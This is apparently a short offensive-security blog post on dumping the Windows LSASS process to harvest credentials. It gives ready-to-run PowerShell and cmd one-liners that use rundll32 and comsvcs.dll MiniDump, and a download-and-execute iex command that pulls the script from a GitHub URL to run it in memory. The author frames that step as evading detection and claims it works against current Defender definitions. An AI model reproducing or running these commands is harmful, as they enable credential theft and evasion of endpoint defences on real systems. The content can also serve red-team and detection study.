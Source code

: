 ```yaml
---
title:  "LSASS Encrypted Dump"
date:   2021-08-13 21:20:00 +0000
categories: [techniques]
tags: [windows, lsass]
---
```



There are many, many ways to dump the LSASS process in order to gather credentials and other sensitive information from systems.

Two ways I dump LSASS can be seen below.

The first way is to invoke comsvcs.dll with rundll32 - here is the original code with added zipping but not compressing the file as to not cuase potential corruption.

{% include codeHeader.html %}
```
$processes = Get-Process
$location = Get-Location
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
	Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
	Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.bin"
	rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.bin full | Out-Null
	Compress-Archive -Path $location\$env:COMPUTERNAME.bin -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


We can also encode and encrypt the script to make it harder to be detected and run it straight in memory via Invoke Expression.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/sp00ks-git/PowerShell-Stuff/main/lsass-dump')
```


Another way is by using a for loop as follows:

```
for /f "tokens=1,2 delims= " ^%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ^%B lsass.dmp full
```

![img-description](/images/lsass-1.png)
_LSASS Dumping with uptodate Defender Definitions"_


![img-description](/images/lsass-2.png)
_executing the script_


